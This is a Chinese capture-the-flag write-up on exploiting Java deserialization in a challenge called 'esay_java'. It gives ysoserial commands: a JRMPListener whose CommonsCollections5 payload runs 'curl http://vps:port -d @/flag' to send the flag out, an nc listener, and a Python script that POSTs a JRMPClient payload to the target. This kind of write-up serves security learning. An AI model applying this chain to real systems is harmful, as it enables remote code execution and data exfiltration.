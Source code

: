 请求

![dwioj0.png](https://s1.ax1x.com/2020/08/23/dwioj0.png)



# esay_ java



关键代码，存在反序列化

![do4Ed0.png](https://s1.ax1x.com/2020/08/28/do4Ed0.png)



限制如下

![do4VoV.png](https://s1.ax1x.com/2020/08/28/do4VoV.png)

引用包

![do4wyd.png](https://s1.ax1x.com/2020/08/28/do4wyd.png)



利用`JRMPClient`进行绕过



先远程服务器

```shell
java -cp  ysoserial-master-30099844c6-1.jar ysoserial.exploit.JRMPListener 8000 CommonsCollections5 "curl http://vps:port -d @/flag"
```

再监听port

```
nc -l port 
```



最后执行脚本

```python
import subprocess
import requests

url = "http://39.101.166.142:8080/jdk_der"
vps = "vps:port"
popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-30099844c6-1.jar', 'JRMPClient', vps],stdout=subprocess.PIPE)
payload = popen.stdout.read()
res = requests.post(url, data=payload).text
print(res)

```



![do5B3F.png](https://s1.ax1x.com/2020/08/28/do5B3F.png)

